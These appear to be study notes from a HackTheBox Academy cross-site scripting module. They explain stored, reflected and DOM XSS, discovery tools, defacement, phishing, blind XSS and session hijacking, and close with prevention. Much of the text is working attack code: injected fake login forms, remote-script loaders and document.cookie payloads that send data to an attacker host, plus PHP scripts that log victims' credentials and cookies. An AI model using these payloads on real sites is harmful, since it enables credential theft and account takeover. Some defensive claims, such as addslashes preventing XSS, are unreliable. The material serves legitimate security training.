Cross-Site Scripting (XSS)
A typical web app works by receiving the HTML code from the back-end server and rendering it on the client-side internet browser. When a vulnerable web app does not properly sanitize user input, a malicious user can inject extra JavaScript code in an input field, so once another user views the same page, they unknowingly execute the malicious JavaScript code.
XSS vulns are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulns on the back-end server may be relatively low, but they are very commonly found in web apps.
As XSS attacks execute JavaScript code within the browser, they are limited to the browser's JS engine. They cannot execute system-wide JavaScript code to do something like system-level code execution. In modern browsers, they are also limited to the same domain of the vulnerable website.
The three main types are:
| Type | Description |
|---|---|
| Stored (Persistent) XSS | most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval |
| Reflected (Non-persistent) XSS | occurs when user input is displayed on the page after being processed by the back-end server, but without being stored |
| DOM-based XSS | another non-persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server |
Stored XSS
If your XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that your XSS attack is persistent and may affect any user that visists the page.
Example:

- Inserting the following XSS payload:
<script>alert(window.origin)</script>
- Execution

- Taking a look at the page source, you can see the payload you just executed
<div></div><ul class="list-unstyled" id="todo"><ul><script>alert(window.origin)</script>
</ul></ul>
[!NOTE] As some modern browsers may block the
alert()JavaScript function in specific locations, it may be handy to know a few other basic XSS payloads to verify the existence of XSS.
[!TIP]
<plaintext>
It will stop rendering the HTML code that comes after it and displays it as plaintext
<script>print()</script>
It will pop up the browser print dialog
Reflected XSS
... vulns occur when your input reaches the back-end server and gets returned to you without being filtered or sanitized. There are many cases in which your entire input might get returned to you, like error messages or confirmation messages. In these cases, you may attempt using XSS payloads to see whether they execute. However, as these are usually temporary messages, once you move from the page, they would not execute again, and hence they are non-persistent.
Example:

- As you can see, you get a
Task 'test' could not be added., which includes your inputtestas part of the error message. - Try XSS payload
Addleads to the alert pop-up and you will seeTask '' could not be added.because the payload is wrapped inside script-tags and doesn't get rendered

[!NOTE] If the XSS vulnerability is non-persistent and it's within a GET request, you can target a user by sending them a URL containing the payload, since GET requests send their parameters as part of the URL.
For this example, the URL might look like this:
http://SERVER_IP:PORT/index.php?task=<script>alert(window.origin)</script>
DOM XSS
While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript. DOM XSS occurs when JavaScript is used to change the source through the Document Object Model (DOM).

- Taking a look at the network tab in firefox developer tools and re-adding
test, you'll notice that no HTTP request is being made

- The input paramter in the URL is using a
#for the item added, which means that this is a client-side parameter that is completely processed on the browser (fragment identifier) - Taking a look at the page source, you will notice that
testis nowhere to be found- JavaScript code is updating the page when you click the
Addbutton, which is after the page source is retrieved by your browser, hence the base page source will not show your input, and if you refresh the page, it will not be retained
- JavaScript code is updating the page when you click the
- You can still view the rendered page source with the Web Inspector tool
[!NOTE] The page source shows the original HTML code sent by the server to the browser, without any dynamic changes made by JavaScript. In the Web Inspector, you can see the current DOM structure, which has been modified after the page loads through JavaScript or interactions, including all dynamic content and adjustments. The Web Inspector is useful for viewing how the page is changed in real-time.
Source and Sink
| Source | is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field |
| Sink | is the function that writes the user input to a DOM object on the page |
If the Sink function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some commonly used JavaScript functions to write DOM objects are:
document.write()DOM.innerHTMLDOM.outerHTML
Example:
The following source code will take the source from the task= parameter:
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
Right below these lines, you see that the page uses the innterHTML function to write the task variable in the todo DOM:
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
This page should be vulnerable to DOM XSS.
DOM attacks
The previous example will not execute, when using the alert() payload. This is because the innerHTML function does not allow the use of <script> tags within it as a security feature. But there are workarounds.
Example:
<img src="" onerror=alert(window.origin)>
The above line creates a new HTML image object, which has a onerror attribute that can execute JavaScript code when the image is not found. If you provide an empty image link (""), the code should always get executed without having to use <script> tags.
[!NOTE] To target a user with this DOM XSS vuln, you can copy the URL from the browser and shre it with them, and once they visit it, the JavaScript code should execute.
XSS Discovery
In web application vulnerabilities, detecting them can become as difficult as exploiting them. Fortunately, there are lots of tools that can help you in detecting and identifying XSS.
Automated Discovery
Some tools are:
XSS Strike example:
d41y@htb[/htb]$ python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
XSStrike v3.1.4
[~] Checking for DOM vulnerabilities
[+] WAF Status: Offline
[!] Testing parameter: task
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3072
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()>
[!] Efficiency: 100
[!] Confidence: 10
[?] Would you like to continue scanning? [y/N]
Manual Discovery
The most basic method of looking for XSS vulnerabilities is manually testing various XSS payloads against an input field in a given web page.
Payload lists are:
You can begin testing these payloads one by one by copying each one and adding it in your form, and seeing whether an alert box pops up.
Code Review
... is the most reliable method of detecting XSS vulnerabilities. If you understand precisely how your input is being handled all the way until it reaches the web browser, you can write a custom payload that should work with high confidence.
XSS Attacks
Defacing
... a website means changing its look for anyone who visits the website. Although many other vulnerabilites may be utilized to achieve the same thing, XSS vulns are among the most used vulns for doing so.
Defacement Elements
Four HTML elements are usually utilized to change the main look of a web page:
- Background color
document.body.style.background
- Background
document.body.background
- Page Title
document.title
- Page Text
DOM.innerHTML
Changing Background
For color:
<script>document.body.style.background = "#141d2b"</script>
For image:
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
Changing Page Title
[!NOTE] The title of a page is typically defined by the
titleHTML tag, which appears within theheadsection of a web page. This title is what appears in the browser tab when you view the page.
<script>document.title = 'HackTheBox Academy'</script>
Changing Page Text
Using innerHTML:
document.getElementById("todo").innerHTML = "New Text"
Using jQuery:
$("#todo").html('New Text');
[!TIP] jQuery functions can be utilized for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so the jQuery library must have been imported within the page source)
As hacking groups usually leave a simple message on the web page and leave nothing else on it, you can change the entire HTML code of the main body, using innerHTML.
document.getElementsByTagName('body')[0].innerHTML = "New Text"
- specify the
bodyelement withdocument.getElementsByTagName('body') - specify the first
bodyelement- should change the entire web page
You should prepare your HTML code separately, and then add it to your payload.
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
Phishing
... attacks usually utilize legitimate-looking information to rick the victim into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Login Form Injection
To perform an XSS phishing attack, you must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, you'd get their creds.

- HTML code for a basic login form:
<h3>Please login to continue</h3>
<form action=http://YOUR_IP>
<input type="username" name="username" placeholder="Username">
<input type="password" name="password" placeholder="Password">
<input type="submit" name="submit" value="Login">
</form>
- Prepare the payload
- to write HTML to the vulnerable page, you can use
document.write()
- to write HTML to the vulnerable page, you can use
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
- Inject the payload

- Identify elements that need to be removed
- to trick the victims to think that they have to log in to be able to use the page open the Page Inspector Picker and click on the element you need to remove
Example:
<form role="form" action="index.php" method="GET" id='urlform'>
<input type="text" placeholder="Image URL" name="url">
</form>
- Clean up
- you can use
document.getElementById().remove()
- you can use
Example:
document.getElementById('urlform').remove();
- Concat this command to the payload used before
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
-
More cleaning up
- On the last image you can see that there still is a piece of the original HTML code:
'> - you can remove that by just commenting it out by using
<!--
- On the last image you can see that there still is a piece of the original HTML code:
-
Concat this command to the payload used before
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();<!--

- Since this is a reflected XSS, you can send the malicious URL to your victim
Credential Stealing
By starting a simple netcat listener, you will capture the credentials if the victim tries to login.
d41y@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
However, if you are only listening with a netcat listener, it will not handle the HTTP request correctly, and the victim would get an Unable to connect error, which may raise some suspiscions. So, you can use a basic PHP script that logs the creds from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.
The following PHP script should do what you need. You have to write it to a file that you'll call index.php and place it in /tmp/tmpserver.
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
$file = fopen("creds.txt", "a+");
fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
header("Location: http://SERVER_IP/phishing/index.php"); // change SERVER_IP
fclose($file);
exit();
}
?>
Now you need to start a PHP listening server, which you can use instead of the basic netcat listener.
d41y@htb[/htb]$ mkdir /tmp/tmpserver
d41y@htb[/htb]$ cd /tmp/tmpserver
d41y@htb[/htb]$ vi index.php # at this step you wrote your index.php file
d41y@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
If a victim tries to login, they will get redirected to the original Image Viewer page and you'll receive the creds.
d41y@htb[/htb]$ cat creds.txt
Username: test | Password: test
Session Hijacking
Modern web apps utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only login once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.
With the ability to execute JavaScript code on the victim's browser, you may be able to collect their cookies and send them to your server to hijack logged-in session by performing a session hijacking (aka cookie stealing) attack.
Blind XSS Detection
Blind XSS vulnerabilities occur usually occur with forms only accessible by certain users. Some potential examples include:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent Header
Example:

After registering a user, you will get this response:

This indicates that you will not see how your input will be handled or how it will look in the browser since it will appear for the admin only in a certain admin panel what you do not have access to. In normal cases, you can test each field until you get an alert. However, as you do not have access over the admin panel in this case, you can use a JavaScript payload that sends an HTTP request back to your server. If the JavaScript code gets executed, you will get a response on your machine, and you will know that the page is indeed vulnerable.
2 issues:
- Since any of the fields may execute your code, you cannot know which of them did
- The page may be vulnerable, but the payload may not work
Loading a Remote Script
Including a remote script into JavaScript code looks like this:
<script src="http://YOUR_IP/script.js"></script>
To make identifying the one vulnerable input field easier, you can change the name of the script (script.js) to the name of the field you are injecting.
<script src="http://OUR_IP/username"></script>
Now you need to test various XSS payloads so you can see which of them sends you a request. PayloadAllTheThings will help you.
Some examples:
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
Before you start sending payloads, you need to start a listener using netcat or PHP.
d41y@htb[/htb]$ mkdir /tmp/tmpserver
d41y@htb[/htb]$ cd /tmp/tmpserver
d41y@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
Once you submit the form, you wait a few seconds and check your terminal to see if anything called your server. If nothing calls your server, you can proceed to the next payload, and so on. Once you receive a call to your server, you should note the last XSS payload you used as a working payload and note the input field name that called our server as the vulnerable input field.
Session Hijacking
Once you find a working XSS payload and have identified the vulnerable input field, you can proceed to XSS exploitation and perform a session hijacking attack. It requires a JavaScript payload to send you the required data and a PHP script hosted on your server to grab and parse the transmitted data.
Payload example:
document.location='http://YOUR_IP/index.php?c='+document.cookie;
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;
One of these payloads needs to be written into the script.js script.
<script src=http://YOUR_IP/script.js></script>
With the PHP server running, you can now use the code as part of your XSS payload, send it to the vulnerable input field, and you should get a call to your server with the cookie value. However, if there were many cookies, you may not know which cookie value belongs to which cookie header. You can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, you will get all of their cookies ordered in a file.
PHP example (to be saved as index.php):
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
fclose($file);
}
}
?>
Once the victim visits the vulnerable web page and view the XSS payload, you will get two requests on your server, one for script.js which in turn will make another request with the cookie value.
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
Output from the PHP script:
d41y@htb[/htb]$ cat cookies.txt
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
Finally, you can use this cookie on the login page to acces the victim's account. For that, you need to add the cookie name (part of the request made on your server before the '=') and the cookie value (the part after the '='). Once the cookie is set, you can refresh the web page and you will get access as the victim.
XSS Prevention
The most important aspect of preventing XSS vulnerabilities is proper input sanitization and validation on both the front and back end. In addition to that, other security measures can be taken to prevent XSS attacks.
Front End
As the front-end of the web app is where most of the user input is taken from, it is essential to sanitize and validate the user input on the front-end using JavaScript.
Input Validation
Can be done with the following code:
function validateEmail(email) {
const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
return re.test($("#login input[name=email]").val());
}
This code tests the email input field and returns true or false whether it makes the Regex validation of an email format.
Input Sanitization
You should always ensure that you do not allow any input with JavaScript code in it, by escaping any special characters. For this, you can utilize the [DOMPurify(https://github.com/cure53/DOMPurify)] JavaScript library:
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
This will escape any special characters with a backslash, which should help ensure that a user does not send any input with special characters.
Direct Input
Finally, youo should always ensure that you never use user input directly within certain HTML tags, like:
- JavaScript code
<script></script> - CSS Style code
<style></style> - Tag/Attribute Fields
<div name='INPUT'></> - HTML Comments
<!-- -->
If user input goes into any of the above examples, it can inject malicious JavaScript code, which may lead to an XSS vuln. In addition to this, you should avoid using JavaScript functions that allow changing raw text of HTML fields, like:
DOM.innerHTMLDOM.outerHTMLdocument.write()document.writeln()document.domain
And the following jQuery functions:
html()parseHTML()add()append()prepend()after()insertAfter()before()insertBefore()replaceAll()replaceWith()
As these functions write raw text to the HTML code, if any user input goes into them, it may include malicious JavaScript code, which leads to an XSS vuln.
Back End
You should also ensure that you prevent XSS vulns with measures on the back-end to prevent stored and reflected XSS vulns. This can be achieved with input and output sanitization and validation, server configuration, and back-end tools that help prevent XSS vulns.
Input Validation
... in the back-end is quite similar to the front-end, and it uses Regex or library functions to ensure that the input field is what is expected. If it does not match, then the back-end server will reject it and not display it.
PHP back-end example:
if (filter_var($_GET['email'], FILTER_VALIDATE_EMAIL)) {
// do task
} else {
// reject input - do not display it
}
For a NodeJS back-end, you can use the same JavaScript code mentioned earlier for the front-end.
Input Sanitization
When it comes to input sanitization, then the back-end plays a vital role, as front-end input sanitization can be easily bypassed by sending custom GET and POST requests. There are very strong libraries for various back-end languages that can properly sanitize any user input, such that you ensure that no injection can occur.
For a PHP back-end, you could use addslashes:
addslashes($_GET['email'])
For a NodeJS back-end, you can also use the DOMPurify library:
import DOMPurify from 'dompurify';
var clean = DOMPurify.sanitize(dirty);
Output HTML Encoding
This means you have to encode any special characters into their HTML codes (e. g. < into <), which is helpful if you need to display the entire user input without introducing an XSS vuln.
For PHP:
htmlentities($_GET['email']);
For NodeJS:
import encode from 'html-entities';
encode('<'); // -> '<'
Server Configuration
There are certain back-end web server configurations that may help in preventing XSS attacks:
- Using HTTPS across the entire domain
- Using XSS prevention headers
- Using the appropriate Content-Type for the page
- Using Content-Security-Policy options, which only allows locally hosted scripts
- Using the Httponly and Secure flags to prevent JavaScript from reading cookies and only transport them over HTTPS
In addition, having a good Web App Firewall (WAF) can significantly reduce the chances of XSS exploitation, as it will automatically detect any type of injection going through HTTP requests and will automatically reject such requests.